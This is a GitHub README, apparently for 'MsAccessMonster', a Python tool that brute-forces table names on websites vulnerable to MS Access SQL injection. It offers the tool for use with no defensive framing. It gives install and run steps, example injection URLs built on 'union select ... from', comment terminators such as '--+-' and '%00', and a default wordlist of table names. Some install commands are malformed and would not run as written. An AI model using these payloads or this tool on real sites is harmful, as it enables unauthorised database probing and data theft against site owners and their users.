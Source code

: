 ## MsAccessMonster
A fast tool for bruteforcing the Ms Access SQL Injection vulnerable sites with 3k+ possible table names.

### Compatible devices
- As this tool is completely written in python, it will run in all devices including, Termux and Debian based OS ( Ubuntu, Kali etc. ).

### Installation & running process
- For Termux ( Android )
```
pkg update && pkg upgrade -y
```
```
pkg install git && python3
```
```
pip install requests
```
```
git clone https://github.com/EverythingVulnerable/MsAccessMonster
```
- For Debian based OS
```
sudo su
```
```
apt-get update && apt upgrade -y
```
```
apt-get install python3 && python3-pip && git
```
```
git clone https://github.com/EverythingVulnerable/MsAccessMonster
```

### Tool running commands ( for every devices & OS )
```
cd MsAccessMonster
```
```
python3 ms.py
```
Then, you will be asked for a Ms Access Vulnerable Site. Give it like this,
```
https://www.everythingvuln1.com/vuln.php?id=1 and 0 union select 1,2,3,4 from
```
Or,
```
https://www.everythingvuln1.com/vuln.php?id=1'and 0 union select 1,2,3,4 from
```
***Note :: Use the word "from" after the 1st input or, the tool won't properly***.

Then, you will be asked to give the comment of the query. This can be anything. Depends on the website. Such as,
```
--
--+-
%00
;%00
```
After giving the perfect comment, you will be told to give your table_name's list or, word list. By default, we have given a default word list which contains 3k+ table names. If you want to use that put your command like this,
```
tables.txt
```
If you want to give your custom word list put the path then. For example,
```
/sdcard/tables.txt
```
Now, hit enter and wait for the matched response. For example,
```
[$] Site link: https://www.everythingvuln1.com/vuln.php?id=1 and 0 union select 1,2,3,4 from ..... %00
```
